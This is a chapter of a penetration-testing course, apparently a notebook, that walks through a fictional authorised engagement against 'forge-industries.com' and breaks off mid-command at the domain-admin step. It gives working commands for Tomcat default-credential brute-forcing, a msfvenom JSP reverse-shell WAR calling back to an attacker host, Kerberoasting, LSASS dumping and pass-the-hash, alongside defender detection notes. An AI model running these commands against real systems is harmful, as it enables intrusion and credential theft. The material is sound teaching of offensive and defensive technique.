





This is Chapter 1 of the Capstone notebook — Notebook 20. Every notebook before this one taught a slice of the craft in isolation: how to enumerate a subnet, how to Kerberoast, how to spot an IDOR, how to escalate on Linux, how to relay NTLM. This chapter does something different. It runs **one single engagement from start to finish** and forces every one of those isolated skills to work together under the constraints of a real test — scope boundaries, noisy defenders, credentials that only work on some hosts, tools that fail and have to be swapped, and the constant question every good tester asks after each win: *"okay, so what does this get me, and where does it lead next?"*

The scenario is the most common paid engagement in the industry: a **full-scope internal penetration test with an external kickoff**. The client — we'll call them `forge-industries.com` — hands you a signed authorisation letter, an in-scope IP range, and a blunt objective: *start from the internet like a real attacker, get inside, and see how far you can go. We want to know if someone can reach Domain Admin, and we want the exact path so we can fix it.* No credentials. No internal foothold. Just a company name and permission.

By the end you will have watched a foothold on a forgotten web application turn into a low-privileged shell, that shell turn into a set of domain credentials, those credentials turn into a map of the Active Directory attack surface, and that map turn into a path to full domain compromise — and, just as importantly, you will understand *why* each step followed from the last, what the defender saw at every stage, and how you would write it up so the client can actually fix it.

Everything in this chapter is lab-scoped. The techniques here change state on infrastructure that runs entire companies; running any of them against a network you do not have **explicit written authorisation** to test is a crime in essentially every jurisdiction on earth. Build the lab described in the final section, attack only your own domain, and keep every command inside that boundary. A penetration test without a signed scope is just a break-in with better documentation.

---

## The Engagement at a Glance: Rules of Engagement Before Any Packet

Before a single `nmap` flag is typed, a real test starts with paperwork, and skipping this is how testers get sued or arrested. The **Rules of Engagement (RoE)** and the **scope** are the contract that separates authorised testing from a felony. You must have them in writing, signed by someone at the client with the authority to grant it, *before* you touch anything.

Here is the fictional engagement we will run for the rest of the chapter:

| RoE item | Value for this engagement |
|---|---|
| Client | Forge Industries (`forge-industries.com`) |
| Engagement type | Full-scope internal pentest, external kickoff, **assumed-breach fallback** allowed on day 3 |
| External scope | `203.0.113.0/28` (the client's public range) + `*.forge-industries.com` |
| Internal scope | `10.10.0.0/16` once a foothold is established |
| Out of scope | Client's VoIP phones, the CEO's personal devices, any host tagged `PROD-PAYMENTS-*`, DoS/DDoS of any kind |
| Objective | Reach Domain Admin (or demonstrate the closest path) and document it |
| Test window | 09:00–21:00 local, two weeks |
| Emergency contact | `soc@forge-industries.com`, plus a phone number for the IT director |
| "Get out of jail" letter | Signed PDF carried by every tester, naming the authorised source IPs |

Two RoE details drive real decisions all the way through. First, **`PROD-PAYMENTS-*` is out of scope** — the moment enumeration reveals a host matching that name, you stop and note it, you do not exploit it. Cardholder systems are frequently carved out because a compromise there triggers regulatory obligations (PCI-DSS) the client isn't ready for. Second, the **assumed-breach fallback**: if you cannot get in from the outside within three days, the client will hand you a low-privileged domain credential so the internal half of the test still happens. This is standard and sensible — the external perimeter is often genuinely hard, and the client is usually far more worried about what an attacker does *after* getting in (via phishing, a stolen laptop, a malicious insider) than about the perimeter itself.

The engagement lifecycle we will follow maps onto a small number of phases. Every subsequent section of this chapter is one of these phases, in order:

```mermaid
flowchart LR
    A[Scoping & RoE] --> B[Passive Recon / OSINT]
    B --> C[External Scanning & Enum]
    C --> D[Initial Foothold<br/>web exploit]
    D --> E[Host Situational Awareness]
    E --> F[Credential Access]
    F --> G[AD Enumeration<br/>BloodHound]
    G --> H[Privilege Escalation<br/>& Lateral Movement]
    H --> I[Domain Dominance<br/>Domain Admin]
    I --> J[Loot, Cleanup & Reporting]
```



A word on **methodology versus recipe**. Beginners memorise commands; professionals internalise a loop. At every host, every credential, every service, you run the same four-question loop: *What is this? What can I do with it? What does it give me access to that I didn't have before? Does that new access change what any earlier dead-end looks like?* That last question is the one that separates a tester who gets stuck at a foothold from one who reaches Domain Admin — a credential you find in hour six often unlocks a service you shrugged past in hour two.

> **Red Team note.** A red team engagement differs from this pentest in *goal*, not technique. A pentest maximises coverage ("find every path"); a red team maximises stealth and realism against a specific objective ("emulate APT29, avoid the SOC, reach the crown jewels"). The command-level tradecraft in this chapter is shared, but a red teamer would slow down, avoid the noisy scans in the next section, and care intensely about the Blue Team notes. We'll flag where the two diverge.

---

## Phase 1 — Passive Reconnaissance and OSINT

Passive reconnaissance means learning about the target **without sending it a single packet you wouldn't send as an ordinary internet user**. Nothing here touches the client's infrastructure in a way that shows up in their logs as an attack; you are querying third parties (registrars, certificate logs, search engines, breach databases) about the client. This is where you build the map before you drive into the territory, and on real engagements it is astonishing how often the winning path is visible from passive recon alone.

The goals of this phase are concrete: enumerate the **domain names and subdomains**, discover the **public IP ranges**, harvest **employee names and email formats**, and — the single most valuable thing you can find — **credentials leaked in past breaches**.

### Subdomain and asset discovery

Start with the certificate transparency logs. Every TLS certificate a public CA issues is logged publicly, so certificate logs are an index of a company's hostnames that they can't hide. `crt.sh` is the classic web interface; from the command line you query it directly:

```bash
# Pull every hostname that has ever had a cert issued for the domain.
# curl -s      : silent (no progress meter)
# The %.domain wildcard in the crt.sh query returns subdomains too.
curl -s "https://crt.sh/?q=%25.forge-industries.com&output=json" \
  | jq -r '.[].name_value' \
  | sed 's/\*\.//g' \
  | sort -u
```

`jq -r '.[].name_value'` pulls the `name_value` field (the hostname) out of every JSON object in the array; `-r` prints it raw (no quotes); `sed 's/\*\.//g'` strips wildcard prefixes; `sort -u` de-duplicates. Output on our engagement:

```
autodiscover.forge-industries.com
forge-industries.com
intranet.forge-industries.com
legacy-hr.forge-industries.com
mail.forge-industries.com
vpn.forge-industries.com
www.forge-industries.com
```

That `legacy-hr.forge-industries.com` is already interesting — the word "legacy" in a hostname is a tester's favourite sound. Legacy systems are unpatched, unmonitored, and owned by someone who left the company. Note it and keep going.

Layer on a purpose-built subdomain tool to catch names the CT logs missed. `subfinder` aggregates dozens of passive sources (Shodan, VirusTotal, SecurityTrails, etc.) behind one command:

```bash
# subfinder passively enumerates subdomains from many OSINT sources.
# -d   : target domain
# -all : use all sources (slower, more thorough)
# -silent : only print results, no banner
subfinder -d forge-industries.com -all -silent | tee subs.txt
```

Then resolve which of those are actually live and where they point, using `dnsx`:

```bash
# dnsx resolves a list of hosts and prints only the ones that resolve.
# -a    : query A records
# -resp : show the resolved IP alongside the name
cat subs.txt | dnsx -a -resp -silent
```

```
vpn.forge-industries.com       [203.0.113.4]
mail.forge-industries.com      [203.0.113.5]
www.forge-industries.com       [203.0.113.6]
legacy-hr.forge-industries.com [203.0.113.9]
intranet.forge-industries.com  [10.10.5.20]     # <-- RFC1918, internal only
```

`intranet` resolves to a private `10.x` address — it isn't reachable from the internet, but that single line just told us the internal network is `10.10.0.0/16`, confirming our internal scope, and that the intranet lives on `10.10.5.0/24`. Passive recon leaked internal topology.

### People, email formats, and breach data

An internal pentest that ends in Active Directory almost always runs through **credentials**, and credentials belong to **people**. Harvest names and the email naming convention:

```bash
# theHarvester gathers emails, names, and hosts from public sources.
# -d : domain    -b : data sources (use several)    -l : result limit
theHarvester -d forge-industries.com -b bing,duckduckgo,crtsh -l 500
```

Cross-reference with LinkedIn (manually, or with a scraper you're authorised to use) to build an employee list, then infer the email format. Suppose you find `Jane Okoro, VP Finance` and an email `j.okoro@forge-industries.com`. The format is `{first-initial}.{last}`. That single pattern lets you generate a **username list for the entire company** from a list of names — the raw material for password spraying later.

The highest-value passive step is checking those emails and usernames against **breach compilations**. When a third-party site gets breached and an employee reused their corporate password (they always do), that password is now public. Tools like Dehashed, HaveIBeenPwned's API, or offline copies of breach corpora turn a name into a candidate password.

> **Bug Bounty angle.** Passive recon *is* the bug-bounty methodology for the first hour of any program. `subfinder | dnsx | httpx` piped together is how bounty hunters find the forgotten staging server or `dev.` subdomain that nobody added to the WAF. On a program, that `legacy-hr` host with an exposed admin panel is a direct payout; on this pentest it's a foothold. Same finding, different reward. The difference is only that a bounty hunter must stay strictly inside the program's declared scope — testing `legacy-hr` is only in scope if the program lists `*.forge-industries.com`.

> **Blue Team note.** Passive recon is, by design, nearly invisible — you cannot log queries someone makes to `crt.sh`. Defence here is *attack-surface management*: continuously enumerate your own certificate logs and subdomains the way an attacker would, decommission `legacy-*` hosts, and enrol every employee in breach-monitoring so a credential leaked on a third-party site triggers a forced password reset before an attacker sprays it. You cannot detect this phase; you can only shrink what it finds.

---

## Phase 2 — External Scanning and Service Enumeration

Now we start touching the client's infrastructure. This is the first phase that appears in their logs, and on a stealth-focused red team you would throttle heavily; on a pentest with a defined window, coverage wins, so we scan properly but stay inside scope.

### Host discovery and port scanning

Point `nmap` at the external range and the resolved hosts. Never scan `0.0.0.0/0` — scan exactly what the RoE authorised.

```bash
# Stage 1: fast, wide sweep to find open ports across the whole external range.
# -sS  : SYN "stealth" scan (half-open; faster, doesn't complete the handshake)
# -p-  : all 65535 TCP ports (default is only the top 1000)
# --min-rate 2000 : send at least 2000 packets/sec so a /28 finishes quickly
# -oA  : output in all three formats (nmap, grepable, XML) to files named forge-ext
# -Pn  : skip host-discovery ping; treat every host as up (firewalls often drop ICMP)
sudo nmap -sS -p- --min-rate 2000 -Pn -oA forge-ext 203.0.113.0/28
```

The half-open SYN scan (`-sS`) sends a SYN, watches for SYN/ACK (open) or RST (closed), and never sends the final ACK, so the connection is never fully established — historically stealthier and faster, though modern IDS catch it easily. Stage 1 gives you a map of *which ports are open where*. Stage 2 interrogates only those open ports for detail:

```bash
# Stage 2: deep scan of just the open ports found above.
# -sV : version detection (what software + version is behind each port)
# -sC : run the default NSE script set (safe, informative checks)
# -p  : the specific open ports from stage 1
# -oA : save results
sudo nmap -sV -sC -p 22,80,443,8080,3389 -oA forge-ext-deep 203.0.113.4,5,6,9
```

Splitting into two stages is a professional habit: `-p-` with `-sV -sC` against a whole range wastes hours version-probing closed ports. Find open ports fast, then interrogate them slowly. Result summary:

| Host | Port | Service (from `-sV`) | Note |
|---|---|---|---|
| 203.0.113.4 (vpn) | 443 | SSL VPN portal (vendor login page) | Patched, current version |
| 203.0.113.5 (mail) | 443 | Exchange OWA / autodiscover | Interesting for password spray |
| 203.0.113.6 (www) | 80/443 | nginx → marketing site (static) | Low value |
| 203.0.113.9 (legacy-hr) | 8080 | Apache Tomcat 9.0.30 | **Old. Manager app?** |

The VPN and mail server are current and hardened — attacking them means grinding on a vendor login page or a well-patched Exchange. The `legacy-hr` Tomcat on `8080` is the soft target. **This is a decision point**: rather than throw everything at every host, a good tester ranks targets by *effort-to-reward* and starts with the one most likely to yield a shell. Tomcat 9.0.30 is from early 2020 and the `/manager` app is a notorious foothold. We commit to it.

### Web enumeration on the foothold candidate

Before exploiting, enumerate the Tomcat app's content and endpoints:

```bash
# httpx probes the URL and reports status, title, tech stack, and server headers.
echo "http://203.0.113.9:8080" | httpx -title -tech-detect -status-code -server

# feroxbuster brute-forces paths using a wordlist to find hidden directories.
# -u : target URL
# -w : wordlist of common paths
# -x : also try these file extensions
# -t : concurrent threads
feroxbuster -u http://203.0.113.9:8080 \
  -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt \
  -x jsp,txt -t 50
```

`feroxbuster` output reveals the classic Tomcat management endpoints:

```
200      GET      http://203.0.113.9:8080/
401      GET      http://203.0.113.9:8080/manager/html
401      GET      http://203.0.113.9:8080/host-manager/html
200      GET      http://203.0.113.9:8080/docs/
```

`/manager/html` returns `401 Unauthorized` — it exists and is asking for HTTP Basic auth. Tomcat's manager app lets an authenticated user **deploy a `.war` file**, and a `.war` can contain a JSP web shell. If we can log in, we have code execution. All we need is a valid manager credential.

> **CTF angle.** This exact setup — an old Tomcat with `/manager` behind weak creds — is a staple of TryHackMe and HackTheBox boxes (e.g., HTB *Jerry* is precisely "default Tomcat creds → WAR upload → shell"). The CTF version hands it to you cleanly; the real version is identical, just wrapped in a scope document. If you've done the CTF boxes, you already know the next three commands.

---

## Phase 3 — Gaining the Initial Foothold (Web Exploitation)

We need Tomcat manager credentials. Tomcat is famous for shipping with default accounts in `tomcat-users.xml` that admins forget to remove. Spray the well-known defaults:

```bash
# hydra brute-forces the HTTP Basic auth on /manager/html.
# -L : list of usernames    -P : list of passwords
# http-get : the login uses HTTP Basic on a GET request
# The /manager/html:...:F=... part tells hydra which URL and the failure string
hydra -L tomcat-users.txt -P tomcat-passwords.txt \
  203.0.113.9 -s 8080 \
  http-get "/manager/html:A=BASIC:F=401"
```

`tomcat-users.txt`/`tomcat-passwords.txt` are the small lists of known Tomcat defaults (`tomcat:tomcat`, `admin:admin`, `tomcat:s3cret`, `role1:role1`, etc.). Hydra reports:

```
[8080][http-get] host: 203.0.113.9   login: tomcat   password: s3cret
```

`tomcat:s3cret` — a default from an old install guide that was never changed. Now build a JSP web shell packaged as a WAR and deploy it. `msfvenom` generates the payload:

```bash
# msfvenom builds a JSP reverse-shell packaged as a deployable WAR.
# -p : payload (Java JSP reverse TCP shell)
# LHOST/LPORT : where the shell calls back to (our attacking box, a port we control)
# -f war : output format WAR (Tomcat-deployable)
# -o : output file. The WAR's internal path becomes the URL to trigger it.
msfvenom -p java/jsp_shell_reverse_tcp \
  LHOST=203.0.113.100 LPORT=4444 \
  -f war -o shell.war
```

Deploy it through the manager's HTTP API (no GUI needed):

```bash
# Upload the WAR via the Tomcat manager "deploy" endpoint.
# --upload-file : PUT the local WAR to the server
# ?path=/shell : the context path the app deploys under
# -u tomcat:s3cret : the creds we just cracked
curl -u tomcat:s3cret --upload-file shell.war \
  "http://203.0.113.9:8080/manager/text/deploy?path=/shell"
```

Start a listener, then trigger the shell by requesting its URL:

```bash
# On the attacker box: catch the incoming reverse shell.
# nc -lvnp : listen, verbose, no-DNS, port 4444
nc -lvnp 4444 &

# Trigger the deployed shell by requesting the JSP inside it.
curl "http://203.0.113.9:8080/shell/"
```

The listener lights up:

```
connect to [203.0.113.100] from (UNKNOWN) [203.0.113.9] 49512
whoami
forge\svc-tomcat
```

We have a shell — running as the service account `forge\svc-tomcat`. Crucially, the account is a **domain account** (`forge\`), not a local one. That single backslash is the whole ballgame: this Tomcat box is domain-joined, which means the machine — and this account — live inside Active Directory. Our web foothold just became an *internal Active Directory foothold*.

> **Blue Team note.** This phase is loud and eminently detectable. The Tomcat access log records the `deploy` request; a `.war` file appearing in `webapps/` is a high-fidelity alert; an outbound TCP connection from a web server to an unknown internet host on 4444 should trip egress monitoring. Detections that matter: alert on any write to Tomcat's `webapps/` directory, block outbound traffic from DMZ web servers except to explicitly allowed destinations (egress filtering kills most reverse shells dead), and — the root fix — remove default manager accounts and put the manager app behind an IP allowlist so it's never internet-reachable. The finding for the report is threefold: outdated Tomcat, default credentials, and internet-exposed management interface.

> **Bug Bounty angle.** Tomcat manager RCE via default creds is reportable on programs that scope the host, but triage teams often rate it lower if the panel requires auth they consider "the client's fault to leave default." The higher-value bounty framing is the *chain*: "unauthenticated attacker → default creds → RCE → domain foothold." Showing impact (the `forge\` in `whoami`) turns a medium into a critical.

---

## Phase 4 — Host Situational Awareness and Credential Access

A fresh shell is disorienting. Before doing anything clever, answer the four-question loop about *this host*: who am I, where am I, what's around me, and what secrets does this box hold. This is **situational awareness**, and rushing past it is how testers miss the credential sitting in a config file three directories away.

First, stabilise and orient:

```bash
# Who am I, and what privileges does this token carry?
whoami /all          # (Windows) SID, groups, and privileges of the token

# What OS and patch level?
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

# What domain am I in, and where are the domain controllers?
nltest /dsgetdc:forge          # asks AD for a domain controller for domain "forge"
```

`nltest /dsgetdc:forge` returns the DC's name and IP — say `DC01.forge-industries.com` at `10.10.1.10`. We now know the heart of the network. The `whoami /all` output shows `svc-tomcat` is a plain domain user with no special privileges on this box — no local admin, no `SeImpersonatePrivilege`. So local privilege escalation on this exact host isn't the fast path. **Pivot the thinking**: the value of this foothold isn't this box, it's that we're now an *authenticated domain principal* who can talk to Active Directory.

But first, mine the box for secrets. Web servers are full of them — database connection strings, service passwords, API keys — sitting in config files:

```bash
# Search Tomcat's config and the app for stored passwords / connection strings.
findstr /si password C:\apache-tomcat\conf\*.xml C:\apache-tomcat\webapps\*\*.properties
type C:\apache-tomcat\conf\tomcat-users.xml
```

The `legacy-hr` app's `application.properties` yields a database connection string:

```
spring.datasource.url=jdbc:sqlserver://10.10.5.30;databaseName=HR
spring.datasource.username=svc-hrapp
spring.datasource.password=Wint3r2023!Forge
```

A second service account (`svc-hrapp`) with a cleartext password, plus the internal IP of a SQL Server (`10.10.5.30`). We have now harvested **two identities** — `svc-tomcat` (via our shell token) and `svc-hrapp` (cleartext). Credential access is the pivot fuel for everything that follows. Every credential is a key; the job now is to find which doors they open.



> **Red Team note.** On a red team you would *not* run a Meterpreter payload and a raw `nc` reverse shell in a real environment — EDR flags both instantly. You'd deploy a purpose-built implant (a C2 beacon over HTTPS with jittered callbacks that blends into normal traffic) and do the `findstr` looting through the beacon, not an interactive shell. The *logic* of situational awareness is identical; only the tooling changes to stay under the SOC's radar. For a pentest with a coverage goal and a cooperative client, the noisy tooling is fine and faster.

---

## Phase 5 — Internal Enumeration and Mapping the AD Attack Surface

We are inside, authenticated, and we know where the domain controller is. Time to build a map of Active Directory so we can *plan* a path to Domain Admin instead of stumbling toward it. The tool for this is **BloodHound**: it collects every user, group, computer, session, and permission relationship in the domain, loads them into a graph database, and lets you ask "show me the shortest path from what I control to Domain Admin." It turns AD — which is a graph, even though admins think of it as a list — into a picture.

First, collect the data. `bloodhound-python` runs the collector remotely using our credentials, no code on a target needed:

```bash
# Collect AD data over the network using svc-tomcat's credentials.
# -u/-p : the credential   -d : domain   -ns : nameserver (the DC)
# -c all : run every collection method (sessions, ACLs, trusts, etc.)
# --zip : bundle the JSON output into one archive for import
bloodhound-python -u svc-tomcat -p 's3cret-tomcat-pw' \
  -d forge-industries.com -ns 10.10.1.10 -c all --zip
```

While that runs, enumerate the two obvious AD attack primitives from earlier notebooks. **Kerberoasting** asks the DC for service tickets for every account that has a Service Principal Name (SPN); those tickets are encrypted with the service account's password hash, which you can crack offline:

```bash
# Request Kerberos service tickets for all SPN accounts and dump them crackable.
# GetUserSPNs.py is Impacket's Kerberoasting tool.
# -request      : actually request the tickets (not just list SPNs)
# -dc-ip        : the domain controller
# forge.../svc-tomcat:pw : domain/user:password to authenticate
GetUserSPNs.py -request -dc-ip 10.10.1.10 \
  forge-industries.com/svc-tomcat:'s3cret-tomcat-pw' -outputfile kerb-hashes.txt
```

It returns a hash for a juicy-looking account, `svc-sql`:

```
$krb5tgs$23$*svc-sql$FORGE.INDUSTRIES.COM$MSSQLSvc/...*$a1b2...(long hash)
```

Crack it offline with hashcat:

```bash
# hashcat cracks the Kerberoast (TGS-REP) hash against a wordlist.
# -m 13100 : Kerberos 5 TGS-REP etype 23 (RC4) mode
# -a 0     : straight wordlist attack
# rockyou + a rules file mutates common passwords (Season2024!, etc.)
hashcat -m 13100 kerb-hashes.txt /usr/share/wordlists/rockyou.txt \
  -r /usr/share/hashcat/rules/best64.rule
```

```
$krb5tgs$23$*svc-sql$...  :  Summer2023$Forge
```

We now hold **three credentials**: `svc-tomcat`, `svc-hrapp` (`Wint3r2023!Forge`), and `svc-sql` (`Summer2023$Forge`). Notice the password pattern — `Season+Year+Forge`. That pattern is itself a finding, and it makes a targeted password spray devastating.

Now open BloodHound and import the zip. In the GUI, mark the accounts we control as **Owned** and run the built-in query **"Shortest Paths to Domain Admins from Owned Principals."** The graph that comes back is the entire point of this phase:



BloodHound reveals the path: `svc-sql` is a member of `SQL-ADMINS`, which is local admin on the SQL server `SQL01`. On `SQL01`, a Server Admin named `alice.admin` has an active session (her credentials are cached in memory on that box). `alice.admin` is in `SERVER-OPERATORS`, which — through an ACL misconfiguration — has `GenericAll` (full control) over the `DOMAIN ADMINS` group. That last edge is a mistake someone made years ago, and it's our road to the top.

The plan writes itself: use `svc-sql` to get onto `SQL01`, steal `alice.admin`'s cached credentials, then use her `GenericAll` right to add ourselves to Domain Admins. Every step from here is executing that plan.

> **Blue Team note.** This phase is detectable if you're watching Kerberos. Kerberoasting generates **Event ID 4769** (Kerberos service ticket requested) — a burst of 4769s with RC4 encryption (`0x17`) for many SPNs from one account is a classic Kerberoast signature. Defences: make service-account passwords long and random (25+ chars) so the offline crack fails, migrate SPN accounts to **Group Managed Service Accounts (gMSA)** whose passwords rotate automatically and can't be cracked, and alert on the 4769 burst pattern. The `GenericAll` misconfiguration is the deeper problem — BloodHound is a *defensive* tool too; blue teams run it against their own domain to find and cut exactly these edges before an attacker does.

---

## Phase 6 — Privilege Escalation and Lateral Movement

We have a map. Now we execute it, moving from host to host and identity to identity. **Lateral movement** is using credentials that work on one machine to access another; **privilege escalation** is turning a low-privileged identity into a higher one. On this path they interleave.

### Step 1: onto SQL01 as svc-sql

`svc-sql` is local admin on `SQL01` (BloodHound's `AdminTo` edge). The cleanest way to use domain admin-on-a-box rights remotely is a tool that authenticates and gives you command execution. `netexec` (the successor to CrackMapExec) does this across a whole subnet and confirms where a credential is admin:

```bash
# Spray svc-sql across the internal range to confirm where it has admin rights.
# smb            : use the SMB protocol
# 10.10.5.0/24   : the subnet SQL01 lives on
# -u/-p          : credential
# The "(Pwn3d!)" tag in output means this account is local admin on that host.
netexec smb 10.10.5.0/24 -u svc-sql -p 'Summer2023$Forge'
```

```
SMB  10.10.5.30  445  SQL01   [+] forge\svc-sql:Summer2023$Forge (Pwn3d!)
SMB  10.10.5.31  445  APP02   [+] forge\svc-sql:Summer2023$Forge
```

`(Pwn3d!)` on `SQL01` confirms local admin. Get an interactive shell on it. `evil-winrm` is the standard for authenticated Windows remote shells over WinRM (port 5985):

```bash
# Interactive PowerShell shell on SQL01 over WinRM as svc-sql.
# -i : target IP   -u/-p : credential
evil-winrm -i 10.10.5.30 -u svc-sql -p 'Summer2023$Forge'
```

### Step 2: steal alice.admin's cached credentials

BloodHound said `alice.admin` has a session on `SQL01` — her credentials are in memory (the LSASS process). As local admin we can dump them. The classic tool is **Mimikatz**, but running it directly trips every EDR; a quieter approach dumps LSASS to a file and parses it offline. Either way, the concept is the same: read the memory of the process that caches Windows credentials.

```powershell
# From the evil-winrm shell on SQL01 (local admin), dump LSASS memory.
# comsvcs.dll's MiniDump exports a full process dump; needs the lsass PID + a path.
# (Shown for the lab; in production this is exactly what EDR watches for.)
tasklist /fi "imagename eq lsass.exe"     # find the LSASS PID, e.g. 640
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 640 C:\temp\l.dmp full
```

Exfiltrate `l.dmp` and parse it offline with `pypykatz` (a Python reimplementation of Mimikatz, no Windows needed):

```bash
# Parse the LSASS dump offline to extract cached credentials.
pypykatz lsa minidump l.dmp
```

```
== msv ==
   Username: alice.admin
   Domain:   FORGE
   NT:       e19ccf75ee54e06b06a5907af13cef42
== kerberos ==
   Username: alice.admin
   Password: (not present - only hash cached)
```

We get `alice.admin`'s **NT hash**, not her cleartext. That's fine — Windows authentication accepts the hash directly via **pass-the-hash**. We don't need to crack it.

### Step 3: use alice.admin to reach the domain

`alice.admin` has `GenericAll` over the Domain Admins group. First confirm the hash works and find where `alice.admin` can operate:

```bash
# Pass-the-hash: authenticate as alice.admin using the NT hash (-H), no password.
netexec smb 10.10.1.10 -u alice.admin -H e19ccf75ee54e06b06a5907af13cef42
```

The `10.10.1.10` is the domain controller. The hash authenticates. We are now operating as a Server Operator with full control over the most powerful group in the domain.



> **Blue Team note.** LSASS access is the single highest-value detection in a Windows environment. **Credential Guard** (which isolates LSASS secrets in a virtualised container) defeats this dump entirely on supported hardware. Failing that, EDR alerts on any non-system process opening a handle to `lsass.exe` with `PROCESS_VM_READ`, and the `comsvcs.dll MiniDump` technique has a well-known signature. Pass-the-hash shows up as **NTLM authentication** (Event 4624 Logon Type 3 with NTLM) where you'd expect Kerberos — enabling "Restricted Admin" mode and killing NTLM where possible closes it. The root cause, again, is the `GenericAll` ACL and `alice.admin` logging into a lower-trust box (SQL01) with credentials powerful enough to matter — a **tiering** violation. Tier-0 admins should never authenticate to Tier-1/2 hosts.

---

## Phase 7 — Domain Dominance: Reaching Domain Admin

`alice.admin` has `GenericAll` on the Domain Admins group. `GenericAll` means full control — including the right to **modify the group's membership**. We simply add an account we control to Domain Admins. Impacket and BloodHound-suite tooling both do this; here's the direct approach and the cross-platform Impacket equivalent.

Using the ACL abuse to add our controlled `svc-sql` to Domain Admins, authenticated as `alice.admin` via pass-the-hash:

```bash
